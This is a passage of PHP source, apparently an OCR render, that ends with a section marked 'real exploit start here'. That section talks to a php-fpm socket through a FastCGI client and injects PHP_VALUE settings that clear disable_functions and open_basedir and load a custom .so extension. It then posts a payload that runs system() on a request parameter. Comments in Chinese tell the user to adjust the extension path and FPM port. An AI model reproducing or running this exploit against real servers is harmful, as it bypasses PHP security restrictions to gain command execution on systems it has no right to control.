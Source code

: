 ```php
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>"; 
$php_value = "unserialize_callback_func = system\nextension_dir = /var/www/html\nextension = 1.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";   //注意修改这里的so文件名称和路径
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001',    // 注意这里的FPM端口
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>

```

